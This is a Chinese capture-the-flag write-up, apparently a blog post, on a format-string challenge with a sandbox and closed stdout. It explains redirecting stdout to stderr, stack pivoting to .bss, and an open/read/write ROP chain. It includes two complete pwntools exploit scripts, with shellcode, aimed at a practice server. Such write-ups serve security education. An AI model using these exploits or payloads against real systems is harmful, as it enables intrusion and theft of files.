








# 总结：

通过这道题的学习与收获有：

1、close 关闭了标准输出时，可以用格式化字符串漏洞来将stdout指向的内容修改成IO_2_1_stderr，让程序重新有回显，关于这个过程我画了张图方便自己理解。




2、已经拿到libc基地址的时候，我们所需要的gadget就可以直接去libc中拿，libc里啥都有，libc里啥都有，libc里啥都有，重要的事情说三遍！

3、写爆破脚本时，感觉会报错的地方，用try和except预判一手，让程序得以继续重新运行，而不是原地崩溃。

4、如果close(1)关闭了标准输出，那么格式化字符串漏洞的写入数据最多只能写入0x2000字节，程序如果执行了setvbuf，stdout会出现在bss段，反之则会在libc库中。

# 保护策略：






# 程序分析：






程序分析起来完全没压力，就是开了个沙箱，然后关闭了标准输出，然后循环100次格式化字符串漏洞（如果输入d^3CTF则会直接退出程序），数据是输入到了bss段。另外就是保护开了PIE

这道题可以说是de1ctf_2019_unprintable这道的强化版（因为某些方面这道题更简单），如果你现在在做本题并且没有做过unprintable这道题的话，建议先去做[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)这道题。

其实要说强化也不至于，这俩的区别就是一个是GetShell，一个是orw。前面的手法还是差不多的，ok，下面来分析一下这道题	

# 大致思路：

首先这道题可以利用一百次的格式化字符串漏洞，这个相比于de1ctf_2019_unprintable的话是简单很多的。因为开了沙箱，那就考虑orw。有了unprintable这道题的经验，就很容易想到这道个题的思路也是将rop链布置到bss，然后将栈迁移到bss段即可。

然后就是最不好想的点，close(1)怎么处理？如果我们可以获取shell的话，可以将文件描述符重定位一下，用socket+connect也可以对抗close(1)（具体参考[这篇文章](https://www.cnblogs.com/ZIKH26/articles/16193814.html))）但是对于这道题而言都行不通，如果不能搞定这个close(1)，libc基地址和程序地址都无法泄露，那啥都没有还做个锤子...

在此学习到了一种新的手法来处理close(1)

> 程序中的stdout（它是个指针）只是相当于一个跳板的作用（目的是去libc中寻IO_2_1_stdout地址），而IO_2_1_stdout所使用文件描述符1，close(1)关闭的是文件描述符1，但是程序中想要进行输出，并不是去直接跟文件描述符相接触，而是通过stdout来去访问到文件描述符(事实上它访问的是IO_2_1_stdout这个结构，而这个结构使用了文件描述符），举个例子，即使文件描述符1被关闭，但是**执行puts的时候，程序是不知道文件描述符被关闭了，因此它依然会通过stdout来去寻找IO_2_1_stdout**（以获取文件描述符1），**等找到IO_2_1_stdout，程序才意识到文件描述符1被关闭，因此并不会让puts出现任何回显**。
>
> 但是如果我们可以在这个过程的中间做手脚比如将原本stdout所指向的IO_2_1_stdout修改为IO_2_1_stderr，等程序来寻找的时候，最终获取了文件描述符2，由于文件描述符2对应的终端也是屏幕，最终执行puts成功出现了回显。

PS:**程序如果执行setvbuf，stdout会出现在bss段，反之则会在libc库中**。


因此当前思路就是利用格式化字符串将stdout所指向的IO_2_1_stdout修改为IO_2_1_stderr，让程序出现回显。（另外就是一个大坑，**如果close(1)关闭了标准输出，那么格式化字符串漏洞的写入数据最多只能写入0x2000字节**（本菜狗通过实验仅仅只发现了这个规律，目前还不知道原因，如果各位师傅知道原因的话，还请告知）

## 重启输出

由于输入是在bss段上，要是想修改栈中的数据，就要去布置一条栈链（关于栈链本文不再多说，具体可以去看[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)这篇文章）

然后通过栈链来修改数据。

### 布置栈链




首先发现栈中存在bss段上buf的地址<font color=red>（**请注意区分buf的地址，和指向buf的地址）**</font>，因此我们要把0x7fffffffdf58布置到栈里面，通过0x7fffffffdf58来改写0x555555756060,将其改写为stdout的地址，然后通过stdout的地址来修改libc中IO_2_1_stdout。

发现这里有一条栈链（如下图），那么我们拿它来开刀


这个偏移是6，因此第一次输入payload为

```python
payload = '%' + str(leak) + 'c%6$hhn'
```

leak为程序自己泄露的地址取最后一字节，通过调试发现程序自己泄露的地址就是**指向buf的地址**，而我们现在就是要利用栈链把**指向buf的地址**写到栈里。

下图为修改前：


下图为修改后：


下一步，通过指向buf的地址来修改buf地址，将其修改为stdout的值，也就是通过下图来进行修改


由图可知，偏移取10（考虑六个寄存器），payload如下：

```python
payload = '%' + str(0x20) + 'c%10$hhn'
```

修改前：


修改后：


此时buf已经被修改成了stdout的值，可以看到stdout指向了IO_2_1_stdout。

### 修改IO_2_1_stdout

最后通过stdout将IO_2_1_stdout改为IO_2_1_stderr即可。

IO_2_1_stderr的偏移去libc中找（如下图），由于最后偏移只是最后一个半字节不同，但是利用格式化字符串要么修改一字节要么修改两字节，因此这里我们采用修改后两字节，即爆破倒数第四位（我们采用hn写入，但是对偏移取&0xfff，因此我们一直在爆破成功的条件就是libc基地址倒数第四位为0时）


这里的payload为

```python
payload = '%' + str(stderr) + 'c%9$hn'
```

stderr为IO_2_1_stderr地址最后三位

由于这里是需要爆破的，如果爆破不成功就意味着修改失败，则程序依然不会给回显，因此我们通过程序是否有回显来判断,如果有回显的话，我们发过去的aaaaa肯定是可以被接收的，否则则返回当前函数，继续爆破。

```python
p.sendline('aaaaaaa')
    x = p.recvuntil('aa', timeout=0.5)
    if 'aa' not in x:
        print('fail')
        return 1
    else:
        print('success-----------------------------------------')
```

下面为爆破成功修改stdout的情况，可以看到此时的stdout已经指向了IO_2_1_stderr


至此我们的输出已经被重启，那剩下的就随便玩了。

## 泄露数据

由于接下来要对抗PIE以及要获取libc，因此我们要先泄露一下栈中数据。我们要获取栈基地址，libc基地址，程序基地址，观察栈里情况（如下图）




如果此时直接发送payload会发现后门的数据都连包了，如果每次sendline之前都打上pause()，那么在格式化字符串执行的时候要你把所有的sendline全发了才能去执行，如果全发的话会连包... （这里补充一个很细的技巧，每次发送数据时，把payload给填满，这样就可以避免连包的产生），payload如下。

```python
payload = '%19$p%15$p%6$p'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

## 修改返回地址

因为最后的核心是在bss段布置rop链，因此我们需要把栈给迁移到bss段。大致思路是将返回地址改写成pop rsp地址，而把返回地址下面的内容改成要迁移的bss段地址，最后执行pop rsp的时候就完成了迁移，最终执行我们布置在bss段上rop链。

先说修改返回地址。


只需要拿pop rsp的地址加上程序基地址的偏移，然后取后两字节就ok了。不过通过观察当前栈发现，依旧是需要栈链来修改返回地址，因为没有栈的内容指向了返回地址（如下图）


将栈顶内存单元指向的0x7ffe8cfa5578改成0x7ffe8cfa5588（如下图），这步的目的是通过0x7ffe8cfa5588来修改menu的返回地址。

```python
payload = '%' + str(hook1) + 'c%6$hhn'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

修改后：



然后将menu函数的返回地址修改成pop rsp

```python
payload = '%' + str(rsp_addr) + 'c%10$hn'
p.sendline(payload.ljust(0x12c - 1, '\x00'))
```

下图为修改后：


此时返回地址已经修改完成，最后两步分别是布置迁移地址和构造rop链，先说布置迁移地址。

## 布置迁移地址

这个过程和[de1ctf_2019_unprintable](https://www.cnblogs.com/ZIKH26/articles/16167705.html)一模一样（原理在这篇文章中已经解释），就不再解释原理了，直接放这部分脚本了

```python
# 布置迁移地址bss_addr+0x10  因为bss要存放d^3CTF and flag
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr + 0x10) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

```

## 布置rop链

首先要触发pop rsp，肯定是要结束循环，因此我们输入的payload最开始要存放字符串d\^3CTF，同时我们要采用orw，open的flag字符串也要存入。所以d^3CTF后面再写个flag字符串。又因为最开始的pop rsp后面还有pop r13;pop r14;pop r15，因此在字符串后面填入24字节的垃圾数据（为了避免将字符串弹入寄存器，我们迁移的地址垫高0x10字节）

至此开始正式布置rop链，这里说一下，我最开始用的是mprotect函数改写bss段属性，最后本地获取了flag，但是远程没有显示flag（但是脚本写的是没问题的，远程不通是个未解之谜...这个脚本我放到文末了）

mprotect行不通，那就采用传统方式，传参然后执行函数。

我们接下来就是要执行下面的内容，值得一提的是由于close关闭了文件描述符1，因此open返回的文件描述符是1（文件描述符是取当前可用文件描述符的最小的那一个，此时0,2被占用，因此1是最小），同时由于stdout指向了IO_2_1_stderr,所以我们应该使用文件描述符2进行输出。

```python
open(flag_addr,0)
read(1,base_addr+0x202060+0x300,0x100)
write(2,base_addr+0x202060+0x300,0x100)
```

至于传参之类所需要的gadget，用啥就去libc库里找（因为现在libc基地址是知道的），libc里啥都有。

```python
	payload = 'd^3CTF\x00\x00'
    payload += 'flag\x00\x00\x00\x00'
    payload += p64(0) + p64(0) + p64(0)
    # open(flag_addr,0)
    payload += p64(pop_rdi_addr) + p64(base_addr + 0x202068)
    payload += p64(pop_rsi_r15_addr) + p64(0) + p64(0)
    payload += p64(open_addr)

    # read(1,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(1)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(read_addr)

    # write(2,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(2)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(write_addr)
    p.sendline(payload)
    p.interactive()
```

# exp：

## 1、获取libc基地址，用libc库里的gadget执行orw获取flag

```python
# coding:utf-8
from pwn import *

# from pwncli import *
context(arch='amd64', log_level='debug')


def pwn():
    # gdb.attach(p)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io_stderr_addr = libc.symbols['_IO_2_1_stderr_']
    print('io_stderr_addr------------>', hex(io_stderr_addr))
    print(hex(leak_addr))
    print_ret_addr = leak_addr - 0x20
    print('print_ret_addr-------->', hex(print_ret_addr))
    '''构造栈链，第一次构造一个指向buf的栈地址'''
    leak = (leak_addr) & 0xff
    print(hex(leak))
    payload = '%' + str(leak) + 'c%6$hhn'
    p.sendline(payload)
    rsp_addr = 0xbbd

    '''第二次通过指向buf的栈地址，将buf修改为stdout'''
    # pause()
    sleep(0.2)
    payload = '%' + str(0x20) + 'c%10$hhn'
    p.sendline(payload)

    '''第三次通过stdout将_IO_2_1_stdout_改成_IO_2_1_stderr_值，此时需要爆破倒数第二字节的前半字节，猜测为0，概率1/16'''
    # pause()
    sleep(0.2)
    stderr = io_stderr_addr & 0xfff
    print('stderr------------>', hex(stderr))
    payload = '%' + str(stderr) + 'c%9$hn'
    p.sendline(payload)

    '''下面来判断是否将stdout指向的值改写成stderr指向的值'''
    p.sendline('aaaaaaa')
    try:
        x = p.recvuntil('aa', timeout=0.5)
    except:
        return
    if 'aa' not in x:
        print('XXXXXX')
        return 1
    else:
        print('success-----------------------------------------')
    pause()

    #gdb.attach(p)
    payload = '%19$p%15$p%6$p'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    # pause()
    sleep(0.2)
    p.recvuntil('\x78')
    main_addr = int(p.recv(12), 16)
    # main_addr=u64(p.recv(6).ljust(8,'\x00'))
    print('main_addr---------->', hex(main_addr))
    base_addr = main_addr - 0xb24
    print('base_addr---------->', hex(base_addr))
    pause()
    p.recvuntil('\x78')
    leak_libc = int(p.recv(12), 16)
    print('leak_libc------------->', hex(leak_libc))
    libc_base = leak_libc - 0x21b97
    print('libc_base--------->', hex(libc_base))
    p.recvuntil('\x78')
    rsp_hook = int(p.recv(12), 16)
    print('rsp_hook---------->', hex(rsp_hook))

    rsp_addr = rsp_addr + base_addr
    print('rsp_addr----------------------->', hex(rsp_addr))
    rsp_addr = rsp_addr & 0xffff
    print('rsp_addr----------------------->', hex(rsp_addr))
    # pause()
    sleep(0.2)
    hook1 = (rsp_hook + 8) & 0xff
    print('hook1------------->', hex(hook1))
    payload = '%' + str(hook1) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()

    # 将menu函数的返回地址修改成pop rsp
    payload = '%' + str(rsp_addr) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # 写入bss段指针
    bss_hook = rsp_hook + 0x10

    # 布置迁移地址bss_addr+0x10  因为bss要存放d^3CTF and flag
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr + 0x10) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))


    pop_rdx_addr = 0x1b96 + libc_base
    pop_rdi_addr = base_addr + 0xbc3
    pop_rsi_r15_addr = base_addr + 0xbc1
    read_addr = 0x110070 + libc_base
    write_addr = libc_base + 0x110140
    open_addr = libc_base + 0x10fc40

    payload = 'd^3CTF\x00\x00'
    payload += 'flag\x00\x00\x00\x00'
    payload += p64(0) + p64(0) + p64(0)
    # open(flag_addr,0)
    payload += p64(pop_rdi_addr) + p64(base_addr + 0x202068)
    payload += p64(pop_rsi_r15_addr) + p64(0) + p64(0)
    payload += p64(open_addr)

    # read(1,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(1)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(read_addr)

    # write(2,base_addr+0x202060+0x300,0x100)
    payload += p64(pop_rdi_addr) + p64(2)
    payload += p64(pop_rsi_r15_addr) + p64(base_addr + 0x202060 + 0x300) + p64(0)
    payload += p64(pop_rdx_addr) + p64(0x100)
    payload += p64(write_addr)
    p.sendline(payload)
    p.interactive()


i = 0
while 1:
    #p = process('./a')
    p=remote("node4.buuoj.cn",28285)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print(hex(leak_addr & 0xffff))
    pwn()


```


## 2、用shellcode执行orw

这个本地看到flag了，但是远程有问题，也在此记录一下。

```python
# coding:utf-8
from pwn import *
#from pwncli import *
context(arch='amd64', log_level='debug')


def pwn():
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io_stderr_addr = libc.symbols['_IO_2_1_stderr_']
    print('io_stderr_addr------------>', hex(io_stderr_addr))
    print(hex(leak_addr))
    print_ret_addr = leak_addr - 0x20
    print('print_ret_addr-------->', hex(print_ret_addr))
    '''构造栈链，第一次构造一个指向buf的栈地址'''
    leak = (leak_addr) & 0xff
    print(hex(leak))
    payload = '%' + str(leak) + 'c%6$hhn'
    p.sendline(payload)
    rsp_addr = 0xbbd

    '''第二次通过指向buf的栈地址，将buf修改为stdout'''
    # pause()
    sleep(0.2)
    payload = '%' + str(0x20) + 'c%10$hhn'
    p.sendline(payload)

    '''第三次通过stdout将_IO_2_1_stdout_改成_IO_2_1_stderr_值，此时需要爆破倒数第二字节的前半字节，猜测为0，概率1/16'''
    # pause()
    sleep(0.2)
    stderr = io_stderr_addr & 0xfff
    print('stderr------------>', hex(stderr))
    payload = '%' + str(stderr) + 'c%9$hn'
    p.sendline(payload)

    '''下面来判断是否将stdout指向的值改写成stderr指向的值'''
    p.sendline('aaaaaaa')
    x = p.recvuntil('aa', timeout=0.5)
    if 'aa' not in x:
        print('XXXXXX')
        return 1
    else:
        print('success-----------------------------------------')
    pause()

    #gdb.attach(p)
    payload = '%19$p%15$p%6$p'
    p.sendline(payload.ljust(0x12c-1,'\x00'))
    # pause()
    sleep(0.2)
    p.recvuntil('\x78')
    main_addr = int(p.recv(12), 16)
    # main_addr=u64(p.recv(6).ljust(8,'\x00'))
    print('main_addr---------->', hex(main_addr))
    base_addr = main_addr - 0xb24
    print('base_addr---------->', hex(base_addr))
    pause()
    p.recvuntil('\x78')
    leak_libc=int(p.recv(12), 16)
    print('leak_libc------------->',hex(leak_libc))
    libc_base = leak_libc- 0x21b97
    print('libc_base--------->', hex(libc_base))
    p.recvuntil('\x78')
    rsp_hook = int(p.recv(12), 16)
    print('rsp_hook---------->', hex(rsp_hook))


    one_gadget = libc_base + 0x10a2fc
    print('one_gadget-------------------->', hex(one_gadget))
    high_addr = (one_gadget >> 32) & 0xffff
    print('high_addr--------------------->', hex(high_addr))
    medium_addr = (one_gadget >> 16) & 0xffff
    print('medium_addr------------------->', hex(medium_addr))
    low_addr = (one_gadget) & 0xffff
    print('low_addr---------------------->', hex(low_addr))

    rsp_addr = rsp_addr + base_addr
    print('rsp_addr----------------------->', hex(rsp_addr))
    rsp_addr = rsp_addr & 0xffff
    print('rsp_addr----------------------->', hex(rsp_addr))
    # pause()
    sleep(0.2)
    hook1 = (rsp_hook + 8) & 0xff
    print('hook1------------->', hex(hook1))
    payload = '%' + str(hook1) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()

    # 将menu函数的返回地址修改成pop rsp
    payload = '%' + str(rsp_addr) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # 写入bss段指针
    bss_hook = rsp_hook + 0x10

    # payload='%'+str(low_addr)+'c%10$hn'
    # p.sendline(payload.ljust(0x12c-1,'\x00'))


    #布置迁移地址bss_addr+8  因为bss要存放d^3CTF
    sleep(0.2)
    # pause()
    print("bss_hook1------------->", hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    bss_addr = base_addr + 0x202060
    print("bss1_addr------------->", hex(bss_addr & 0xffff))
    payload = '%' + str((bss_addr+8) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook2-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 16) & 0xffff))
    payload = '%' + str(((bss_addr) >> 16) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    sleep(0.2)
    # pause()
    bss_hook = bss_hook + 2
    print('bss_hook3-------------->', hex(bss_hook))
    payload = '%' + str((bss_hook & 0xffff)) + 'c%6$hhn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))
    sleep(0.2)
    # pause()
    print("bss2_addr------------->", hex((bss_addr >> 32) & 0xffff))
    payload = '%' + str(((bss_addr) >> 32) & 0xffff) + 'c%10$hn'
    p.sendline(payload.ljust(0x12c - 1, '\x00'))

    # lb = LibcBox()
    # lb.add_symbol('__libc_start_main', leak_libc)  # 这个地方跟libcsearcher用法基本一样，下面也是去dump出来
    # lb.search(download_so=1)
    # libc_base = puts_addr - lb.dump('__libc_start_main')

    mprotect_addr=libc_base+0x11bae0
    read_addr=0x116600+libc_base
    write_addr=libc_base+0x1166a0
    open_addr=libc_base+0x10fc40
    #mprotect(bss_addr,0x100000,7)
    csu1_gadget=base_addr+0xbba
    pop_rdx_addr=0x1b96+libc_base
    term_proc=base_addr+0x201DB8
    magic_gadget=base_addr+0x8de
    pop_rdi_addr=base_addr+0xbc3
    pop_rsi_r15_addr=base_addr+0xbc1
    
    exit_addr=0x43120+libc_base
    alarm_offset=0xe44f0
    alarm_got_addr=0x201FB0+base_addr
    orw_shellcode='\x68\x66\x6C\x61\x67\x54\x5F\x6A\x00\x5E\x6A\x02\x58\x0F\x05\x6A\x01\x5F\x54\x5E\x6A\x50\x5A\x6A\x00\x58\x0F\x05\x6A\x02\x5F\x54\x5E\x6A\x50\x5A\x6A\x01\x58\x0F\x05'
    payload='d^3CTF\x00\x00'
    payload+=p64(0)+p64(0)+p64(0)
    payload+=p64(pop_rdi_addr)+p64(base_addr+0x202000)
    payload+=p64(pop_rsi_r15_addr)+p64(0x100000)+p64(0)
    payload+=p64(pop_rdx_addr)+p64(7)
    payload+=p64(mprotect_addr)
    payload+=p64(base_addr+0x60+0x202060+0x8)
    payload+=orw_shellcode
    p.sendline(payload)
    # gdb.attach(p)
    p.interactive()


i = 0
while 1:
    #p = process('./a')
    p=remote('node4.buuoj.cn',25582)
    # gdb.attach(p)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print(hex(leak_addr & 0xffff))
    if leak_addr & 0xffff > 0x2000:
        print('---------i------------', i)
        i = i + 1
        continue
    else:
        p.recvuntil("may you enjoy my printf test!\n")
        pwn()
        continue

```

这个是本地出的flag

